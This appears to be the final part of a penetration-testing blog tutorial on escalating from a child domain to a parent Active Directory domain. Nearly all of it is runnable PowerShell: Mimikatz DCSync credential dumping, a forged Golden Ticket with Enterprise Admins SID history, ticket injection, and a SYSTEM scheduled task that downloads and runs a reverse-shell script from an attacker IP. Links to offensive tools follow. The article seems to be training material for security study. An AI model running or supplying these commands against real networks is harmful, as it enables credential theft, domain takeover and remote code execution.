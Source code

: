 ```powershell
Invoke-Mimikatz -Command '"lsadump::dcsyn /domain:<target-domain-SID> /all /cvs"'
```

### <span style="color:#F1C232">2. Create the inter-realm TGT using a Golden Ticket</span>

```powershell
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<current-domain> /sid:<current-domain-SID> /sids:<target-domain-SID>-519 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /ticket:C:\krbtgt_tkt.kirbi"'
```

### <span style="color:#F1C232">3. Now inject the ticket with Mimikatz</span>
```powershell
Invoke-Mimikatz -Command '"kerberos::ptt C:\krbtgt_tkt.kirbi"'

# Now we can also execute wmi commands
gwmi -Class win32_computersystem -ComputerName <target-domain-user-dc>
```

### <span style="color:#F1C232">4. Create a schedule to get a shell as NT AUTHORITY\SYSTEM</span>
```powershell
schtasks /create /S <target-domain-user-dc> /SC Weekly /RU "NT AUTHORITY\SYSTEM" /TN "pwned" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://10.10.x.x/Invoke-PowerShellTcp.ps1''')'"

schtasks /Run /S <target-domain-user-dc> /TN "pwned"
```

# <span style="color:lightblue">Tools Used</span>

1. Invoke-Mimikatz.ps1 download from here : [https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1)
2. asktgs_compiled from here : [https://github.com/NotScortator/asktgs_compiled](https://github.com/NotScortator/asktgs_compiled)
2. Rubeus.exe from here : [https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Rubeus.exe](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Rubeus.exe)

If you find my articles interesting, you can buy me a coffee 

<a href="https://www.buymeacoffee.com/0xStarlight"><img src="https://img.buymeacoffee.com/button-api/?text=Buy me an OSCP?&emoji=&slug=0xStarlight&button_colour=b86e19&font_colour=ffffff&font_family=Poppins&outline_colour=ffffff&coffee_colour=FFDD00" /></a>





